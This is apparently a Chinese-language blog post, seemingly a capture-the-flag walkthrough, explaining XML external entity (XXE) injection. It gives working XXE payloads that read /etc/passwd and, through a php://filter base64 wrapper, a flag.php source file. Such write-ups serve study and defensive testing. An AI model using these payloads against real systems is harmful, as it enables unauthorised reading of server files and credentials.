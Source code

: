 ```yaml
---
title: XML外部实体注入 (XXE漏洞)
date: '2022/1/23 23:15:01'
categories:
  - - web安全
    - 注入
    - XXE
description: XXE漏洞的利用场景和流程
abbrlink: bc3fe178
tags:
---
```


# XML外部实体注入 (XXE漏洞)

## XXE简介
xxe漏洞就是xml外部实体注入。当允许引用外部实体时，通过构造恶意内容，就可能导致任意文件读取、系统命令执行、内网端口探测、攻击内网网站等危害

## 利用场景和流程
抓包发现请求包里面直接存在
```xml
<user>
    <username>
        1
    </username>
    <password>
        1
    </password>
</user>

```

测试能否读取文件
```xml
<!DOCTYPE ANY [
    <!ENTITY test SYSTEM "file:///etc/passwd">
]>
<user>
    <username>
        &test;
    </username>
    <password>
        123
    </password>
</user>
```

然后读取flag.php
```xml
<!DOCTYPE ANY [
    <!ENTITY admin SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/flag.php">
]>
<user>
    <username>
        &admin;
    </username>
    <password>
        123
    </password>
</user>
```